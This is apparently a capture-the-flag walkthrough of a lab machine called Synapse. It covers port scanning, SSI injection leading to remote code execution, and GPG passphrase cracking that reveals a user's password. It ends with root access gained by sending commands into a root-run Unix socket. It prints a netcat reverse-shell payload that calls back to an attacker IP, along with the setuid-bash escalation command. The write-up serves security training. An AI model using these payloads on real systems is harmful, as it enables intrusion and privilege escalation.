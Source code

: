 # Synapse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:30 +08
Nmap scan report for 192.168.201.149
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### SMB + FTP Rabbit Holes

FTP doesn't accept anonymous logins, and SMB with no credentials doesn't show us any share that we can access:

```
$ smbmap -H 192.168.201.149
[+] IP: 192.168.201.149:445     Name: 192.168.201.149                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

It is thus likely that there's a web exploit, so we can start proxying traffic through Burpsuite.&#x20;

### Web Enum --> SSI Injection

Port 80 was running a custom dashboard:

<figure><img src="../../../.gitbook/assets/image (1537).png" alt=""><figcaption></figcaption></figure>

The File Manager was running elFinder, but we cannot access it since we need administrative access:

<figure><img src="../../../.gitbook/assets/image (2569).png" alt=""><figcaption></figcaption></figure>

I checked the user tab, and found that the user was called `mindsflee`:

<figure><img src="../../../.gitbook/assets/image (3079).png" alt=""><figcaption></figcaption></figure>

All of options were under construction, except for the one on the right most.&#x20;

<figure><img src="../../../.gitbook/assets/image (3617).png" alt=""><figcaption></figcaption></figure>

From my enumeration, this seems to be the most vulnerable point. I attempted to upload some PHP webshells, but it seems only images are allowed.

<figure><img src="../../../.gitbook/assets/image (3151).png" alt=""><figcaption></figcaption></figure>

There was one weird part, which was the `url=inspect.shtml` portion, since I had never seen that before. Searching for `shtml` gives us results for Server Side Includes (SSI).

<figure><img src="../../../.gitbook/assets/image (2070).png" alt=""><figcaption></figcaption></figure>

Hacktricks has done a page on SSI Injection that we could try.

{% embed url="https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection" %}

We can try some of the payloads:

<figure><img src="../../../.gitbook/assets/image (3613).png" alt=""><figcaption></figcaption></figure>

If we follow the redirect, we get this:

<figure><img src="../../../.gitbook/assets/image (3083).png" alt=""><figcaption></figcaption></figure>

We now have RCE on the machine, and we can easily get a reverse shell using this:

```
<!--#exec cmd='nc -c bash 192.168.45.189 21' -->
```

<figure><img src="../../../.gitbook/assets/image (3082).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GPG Creds --> Mindsflee Shell

Within the `/home/mindsflee` directory, there are some files of interest:

```
www-data@synapse:/home/mindsflee$ ls -la
total 32
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 .
drwxr-xr-x 3 root      root      4096 Jun 10  2021 ..
lrwxrwxrwx 1 root      root         9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mindsflee mindsflee  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 mindsflee mindsflee 3526 Jun 10  2021 .bashrc
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .gnupg
-rw-r--r-- 1 mindsflee mindsflee  807 Jun 10  2021 .profile
-rw-r--r-- 1 mindsflee mindsflee   33 Jul 15 00:29 local.txt
-rw-r--r-- 1 root      root      2058 Jan  3  2021 synapse_commander.py

www-data@synapse:/home/mindsflee/.gnupg$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 ..
-rw-r--r-- 1 mindsflee mindsflee 5180 Jun 14  2021 creds.priv
-rw-r--r-- 1 mindsflee mindsflee  124 Jun 14  2021 creds.txt.gpg
```

The `.gnupg` file contains some creds. Download these files back to our machine, and we can then try to decrypt it. Using `gpg`, we can attempt to import this key but it requires a passphrase.&#x20;

We can crack this using `gpg2john` and `john`:

```
$ gpg2john creds.priv > gpg_hash
$ john --show gpg_hash                                     
mindsflee:qwertyuiop:::mindsflee::creds.priv
```

Using this, we can then import the key using `gpg` and decrypt the file:

```
$ gpg --import creds.priv       
gpg: key 8ECE3C203E92BE79: "mindsflee" not changed
gpg: key 8ECE3C203E92BE79: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1

$ gpg --output decrypted --decrypt creds.txt.gpg
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

$ cat decrypted                           
user: mindsflee
password: m1ndsfl33w1llc4tchy0u?
```

Using this password, we can `su` to `mindsflee`.

<figure><img src="../../../.gitbook/assets/image (3172).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges --> Socket Injection

The `mindsflee` user can use `sudo` with the Python script we found:

```
[sudo] password for mindsflee: 
Matching Defaults entries for mindsflee on synapse:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mindsflee may run the following commands on synapse:
    (root) /usr/bin/python /home/mindsflee/synapse_commander.py
```

Here's the content of the script:

```python
import socket
import os, os.path, sys
import time
from collections import deque    





print("""\
  
 _____ __ __ _____ _____ _____ _____ _____    _____ _____ _____ _____ _____ _____ ____  _____ _____ 
|   __|  |  |   | |  _  |  _  |   __|   __|  |     |     |     |     |  _  |   | |    \|   __| __  |
|__   |_   _| | | |     |   __|__   |   __|  |   --|  |  | | | | | | |     | | | |  |  |   __|    -|
|_____| |_| |_|___|__|__|__|  |_____|_____|  |_____|_____|_|_|_|_|_|_|__|__|_|___|____/|_____|__|__|


 
  """)

print("Focus your approach with a system designed for single network port access.")
print ("With Synapse Commander, a single arm delivers three multi-jointed instruments")
print("and a fully wristed 3DHD camera for visibility and control in narrow surgical spaces.")
print("Streamlined setup, multiple control modes and a dynamic statistics display are included")
print
print("1 - Access to ARM management")
print("2 - Enable 3DHD camera")
print("3 - Settings")
print("4 - Reboot the system")
print
instruction = raw_input("Synapse Instruction:")

if instruction == "1":
    
    print ("\nARM MANAGEMENT ENABLED")
    os.system("touch 2343432445467676")
elif instruction == "2":
    
    print ("\n3DHD CAMERA ENABLED")
    os.system("touch 5344225453244546")
elif instruction == "3":
    
    print ("\nACCESS TO SETTINGS CONFIGURATION")
    os.system("touch 77756563456244546")
elif instruction == "4":
    
    print ("\nSYSTEM REBOOTED")
    os.execl(sys.executable, sys.executable, *sys.argv)

else:
    os.execl(sys.executable, sys.executable, *sys.argv)



if os.path.exists("/tmp/synapse_commander.s"):
  os.remove("/tmp/synapse_commander.s")    

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/synapse_commander.s")
os.system("chmod o+w /tmp/synapse_commander.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

This program seems to open a Socket as `root` using the configuration of `synapse_commander.s` after we input any number from 1-3, since option 4 and all others would just re-run the script.&#x20;

Again, Hacktricks has a page for this:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection" %}

In one SSH session, run the Python script and input '1'. In another SSH session, run this command:

{% code overflow="wrap" %}
```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/synapse_commander.s
```
{% endcode %}

When we enter that command, the script starts waiting for data to be sent in, which it passes to `os.system(datagram)`. This would result in RCE as `root`:

<figure><img src="../../../.gitbook/assets/image (3112).png" alt=""><figcaption></figcaption></figure>

We can then easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (3635).png" alt=""><figcaption></figcaption></figure>

